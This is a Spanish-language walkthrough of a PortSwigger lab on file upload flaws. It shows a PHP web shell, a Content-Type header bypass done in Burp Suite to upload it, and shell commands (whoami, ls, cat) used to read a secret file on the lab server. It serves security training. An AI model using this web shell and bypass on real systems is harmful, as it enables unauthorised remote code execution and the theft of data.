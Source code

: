 ```yaml
---
title: File Upload Vulnerabilities Lab 2
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via Content-Type restriction bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Web shell upload via Content-Type restriction bypass

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que intenta `evitar` que los usuarios `suban` tipos de `archivos inesperados`, pero se basa en verificar una entrada controlada por el usuario para hacerlo. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego usar este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al intentar subirlo vemos que nos da este `error`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_5.png)

`Subimos` el `archivo` nuevamente y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_6.png)

Cambiamos el `Content-Type` a `image/png` y `subimos` el `archivo`, posteriormente abrimos nuevamente el `inspector` de `chrome` y vemos que el `archivo` subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_7.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_8.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un `archivo` llamado `secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_9.png)

Leemos la información de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_10.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_11.png)
